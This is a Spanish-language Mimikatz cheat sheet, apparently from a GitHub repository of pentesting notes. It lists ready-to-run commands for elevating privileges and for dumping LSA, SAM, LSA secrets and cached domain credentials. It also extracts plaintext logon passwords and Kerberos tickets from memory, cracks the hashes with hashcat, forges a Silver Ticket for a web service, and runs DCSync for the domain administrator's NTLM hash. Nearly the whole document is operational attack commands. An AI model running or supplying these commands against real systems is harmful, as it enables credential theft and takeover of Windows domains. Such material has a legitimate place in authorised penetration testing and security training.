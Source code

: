 # Mimikatz Cheat Sheet

#### Correr como Administrador
```
mimikatz# token::elevate
mimikatz# privilege::debug
```

#### Dumpear Hashes
```
mimikatz# lsadump::lsa /patch

hashcat -m 1000 <hash> rockyou.txt
```

#### Password dumping (Para todos los usuarios que iniciaron sesión en el equipo local) - Extraer contraseñas del sistema
```
mimikatz# sekurlsa::logonPasswords /full

Nota: Tener habilitado solamente el privilege::debug
```

#### Password en memoria
```
mimikatz# sekurlsa::tickets
```

#### sam dumping
```
mimikatz# lsadump::sam

Nota: Tener habilitado solamente el privilege::debug y token::elevate
```

#### secrets dumping
```
mimikatz# lsadump::secrets

Nota: Tener habilitado solamente el privilege::debug
```

#### cache dumping
```
mimikatz# lsadump::cache

El valor lo metemos en un archivo con el formato:
$DCC2$10240#USER#VALOR-MsCacheV2

Crackeamos:
hashcat -m 2100 hash-web_svc /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Crear Silver Ticket (SPN)
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<HASH-NTM> /user:<ALGUN-USER-DEL-DOMAIN>

Luego validamos en Windows si esta el Silver ticket:
PS> klist
PS> iwr -UseDefaultCredentials http://web04
```

#### Extraer hashes NTLM cuando el usuario tiene DCSync
```
privilege::debug

lsadump::dcsync /domain:<DOMAIN> /user:<DOMAIN>\administrator
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)